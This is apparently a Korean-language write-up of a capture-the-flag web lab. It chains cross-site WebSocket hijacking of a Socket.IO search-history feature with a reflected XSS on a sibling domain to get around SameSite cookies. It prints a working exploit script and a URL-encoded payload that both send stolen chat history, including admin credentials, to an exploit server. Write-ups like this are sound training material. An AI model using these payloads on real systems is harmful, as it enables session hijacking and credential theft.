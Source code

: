 # Cat-Distribution-System
To adopt kitties ₍^. .^₎⟆
<br><br>

## 페이지 구성
- home 페이지에서 입양할 고양이 확인 가능(고양이 클릭하면 세부정보 알 수 있음)
- 우상단에 Login 클릭 시 로그인 페이지로 연결
- Search 기능이 있음 (취약점 있는 부분)
- 전체 Search History를 반환하는 기능 구현
<br>

## 1. 검색 기능 분석

- 검색창에 무언가를 검색하면 검색 기록도 반환됨
- 검색 기록은 세션에 따라 반환됨
- 개발자 툴을 통해 살펴보면 웹 소켓 핸드셰이크를 찾을 수 있음
- “순수 WebSocket 프레임”이 아니라 Socket.IO 프레이밍을 사용하는 것 파악
- 요청에 예측 불가능한 토큰이 없기 때문에 CSWSH 취약점의 가능성
- 페이지 새로고침 시 클라이언트가 READY 메시지를 서버에 보내고 서버는 검색 기록으로 응답함
(단순 `new WebSocket(...).send("READY")` 로는 안 됨. Socket.IO 클라이언트를 써서 `socket.emit("READY", …)` 로 보내야 함)

## 2. CSWSH 취약점 확인

- search.js에서 코드 확인하고 공격 스크립트 작성해 익스플로잇 서버 통해 보내기
    
    ### 2-1. 공격 스크립트 작성
    
    - 아래와 같이 익스플로잇 코드를 작성하여 익스플로잇 서버에 주입
    - 웹소켓 주소 알아내기 (F12 -> Network -> Socket: request url)
        
        ```html
        <script src="http://127.0.0.1:5000/static/js/socket.io.min.js"></script>
        <script>
        // exploit.js (참가자가 작성)
        const socket = io("http://web:5000"); // Socket.IO 연결
        socket.on('connect', () => socket.emit("READY", {}));
        socket.on('search_history', (data) => {
          fetch(`http://exploit:8000/collect?job=${jobId}&msg=${btoa(data.search_term)}`);
        });
        </script>
        ```
        
    - /logs 확인해보면 검색 기록이 유출되지만 세션 쿠키가 포함되지 않기 때문에 새 세션의 검색 기록만 얻을 수 있음
    - 서버가 SameSite=Strict이기 때문에 크로스사이트 요청에 쿠키를 보내지 않음을 확인할 수 있음

## 3. sibling domain에서 추가 취약점 발견

- 리소스 응답에 Access-Control-Allow-Origin 헤더가 sibling domain을 허용하는 것 확인
- 해당 페이지에 접속해보면 로그인 폼을 확인할 수 있음
- reflected XSS 취약점이 있는 것을 확인할 수 있음
    - `<script>alert(1)</script>` 보내서 확인 가능
- POST 요청을 GET으로 변환해도 XSS가 동작하는지 확인하고(동작함)
    - burp의 change request method로 가능
- URL로 직접 공격 코드 삽입
- sibling 도메인이 같은 사이트로 간주되어 SameSite 쿠키 제한 우회에 이용 가능함

## 4. SameSite restrictions 우회

- 이전 익스플로잇 스크립트를 URL 인코딩해서 sibling domain의 로그인 페이지의 username 파라미터에 삽입하는 코드 작성
    
    ```html
    <script>
    //sibling domain endpoint /login 뒤에 인코딩한 것 전체 복붙
    document.location="https://cms-0a53007a03d749349b3171130036002b.web-security-academy.net/login?username=%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%35%33%30%30%37%61%30%33%64%37%34%39%33%34%39%62%33%31%37%31%31%33%30%30%33%36%30%30%32%62%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%74%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%74%29%20%7b%0a%20%20%20%20%20%20%20%20%76%61%72%20%6d%65%73%73%61%67%65%20%3d%20%65%76%74%2e%64%61%74%61%3b%0a%09%20%20%20%20%20%20%66%65%74%63%68%28%22%68%74%74%70%73%3a%2f%2f%65%78%70%6c%6f%69%74%2d%30%61%39%39%30%30%38%64%30%33%37%30%34%39%36%30%39%62%35%63%37%30%63%35%30%31%36%35%30%30%64%62%2e%65%78%70%6c%6f%69%74%2d%73%65%72%76%65%72%2e%6e%65%74%2f%65%78%70%6c%6f%69%74%3f%6d%65%73%73%61%67%65%3d%22%20%2b%20%62%74%6f%61%28%6d%65%73%73%61%67%65%29%29%3b%0a%20%20%20%20%7d%3b&password=z";
    </script>
    ```
    
- 익스플로잇 서버에서 전송
    
    => 전체 검색 기록이 유출됨. 유출된 기록에 admin 로그인 정보 포함
    

### 5. 로그인

- admin 정보를 통해 로그인하면 flag 획득
